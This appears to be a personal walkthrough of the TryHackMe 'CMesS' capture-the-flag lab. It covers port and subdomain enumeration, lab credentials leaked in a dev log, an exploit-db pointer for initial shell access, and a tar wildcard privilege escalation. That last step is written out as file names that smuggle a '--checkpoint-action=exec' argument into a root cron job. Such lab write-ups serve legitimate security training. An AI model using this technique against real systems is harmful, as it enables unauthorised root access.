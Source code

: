 # 39 - CMesS (subdomain enum) (tar \* exploitation)

Room Link --> [https://tryhackme.com/room/cmess](https://tryhackme.com/room/cmess)

### Enumeration

Please add `10.10.86.16 cmess.thm` to /etc/hosts

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv   -sV -p- -T5

# outputs
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
{% endcode %}

#### Gobuster enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://cmess.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 500,403,404

# output
/login
/sites
/index
/about
/themes
/INDEX
/1px
/lib
```
{% endcode %}

#### Sub-domain enumeration with wfuzz

{% code overflow="wrap" lineNumbers="true" %}
```bash
wfuzz -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -t 42 --hl 107

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                        
=====================================================================

000000019:   200        30 L     104 W      934 Ch      "dev"
```
{% endcode %}

Add the `dev.cmess.thm` to /etc/hosts.

{% code overflow="wrap" %}
```
Development Log
andre@cmess.thm
Have you guys fixed the bug that was found on live?

support@cmess.thm
Hey Andre, We have managed to fix the misconfigured .htaccess file, we're hoping to patch it in the upcoming patch!

support@cmess.thm
Update! We have had to delay the patch due to unforeseen circumstances

andre@cmess.thm
That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.

support@cmess.thm
Your password has been reset. Here: KPFTN_f2yxe%
```
{% endcode %}

And we can try to login with creds: `andre@cmess.thm : KPFTN_f2yxe%` .

Searching Google for "Gila Cms exploit" and stumbled on [this](https://www.exploit-db.com/exploits/51569)

### Initial Access

Ready nc listener beore runnin the code.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Another way to get shell

{% embed url="https://viperone.gitbook.io/pentest-everything/writeups/tryhackme/linux/cmess" %}

###

`cat /etc/crontab` .

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see a cron job owned by root, utilizing the `tar *`  - wildcards. So we can exploit this.

But we have to be in "andre" home dir for this to work, then i realized we have to get access to user andre 1st.

Then i uploaded `linPEAS` into the machine and saw a file in the /opt dir.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
andres backup password
UQfsdCB7aAP6
```
{% endcode %}

We can ssh in as andres and exploit the  `tar *` vuln.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

exploiting `tar *` or `tar wildcards` .

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Alternatively:

```
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

# just wait 2 minutes for the job to run.
```

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Done.
